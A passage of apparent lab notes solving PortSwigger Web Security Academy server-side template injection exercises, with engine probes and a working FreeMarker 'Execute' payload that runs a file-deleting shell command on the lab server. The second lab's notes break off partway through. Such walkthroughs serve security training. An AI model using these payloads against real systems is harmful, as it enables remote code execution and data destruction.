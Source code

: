 ```bash
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection

Ctrl+f:

$[7*7]

Java - Basic injection
Go to:

https://0a4000120354754fc00e04710074005a.web-security-academy.net/product/template?productId=1

Input:

$[class.getResource("").getPath()]

Preview
Response:

FreeMarker template error 

Go to:

https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#freemarker
Freemarker - Code execution:

$["freemarker.template.utility.Execute"?new()("rm /home/carlos/morale.txt")]

```

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220601233205.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220601233222.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220601232914.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220601233822.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220601233841.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220601234102.png)

### Server-side template injection in an unknown language with a documented exploit
```bash

# This lab is vulnerable to server-side template injection. To solve the lab, identify the template engine and find a documented exploit online that you can use to execute arbitrary code, then delete the morale.txt file from Carlos's home directory. 

Click on "View details"
Response:

https://0a6f002e041ae688c0bf164a0093002e.web-security-academy.net/?message=Unfortunately%20this%20product%20is%20out%20of%20stock

Go to: HTTP history
Find:

GET /?message=Unfortunately%20this%20product%20is%20out%20of%20stock HTTP/1.1

```